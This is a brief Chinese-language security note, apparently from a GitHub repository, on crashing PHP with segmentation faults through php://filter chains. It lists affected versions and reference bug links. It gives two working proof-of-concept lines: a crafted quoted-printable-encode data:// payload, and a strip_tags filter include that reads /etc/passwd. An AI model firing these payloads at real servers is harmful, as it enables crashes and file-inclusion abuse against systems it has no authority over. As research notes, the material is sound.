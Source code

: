 ## Segmentation fault

**参考文章**

- https://hackmd.io/s/Hk-2nUb3Q
- https://www.jianshu.com/p/dfd049924258

### 超大字符
**参考**：

- https://bugs.php.net/bug.php?id=77359  

- https://www.php.net/ChangeLog-7.php
- https://www.php.net/ChangeLog-5.php

**版本：**

- php5<5.6.39
- php7.0<7.0.33
- php7.1<7.1.25
- php7.2<7.2.13
- php7.3不可利用

**测试代码**

```php
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
```

因为安装编译特定的PHP版本太过麻烦（以后可能会做，再补充相关环境测试的截图），所以就没有截图证明了。可以查看参考文章。

### trip_tags

同上，但是在版本PHP7.0.33成功复现
```php
<?php
include("php://filter/string.strip_tags/resource=/etc/passwd");
?>

```


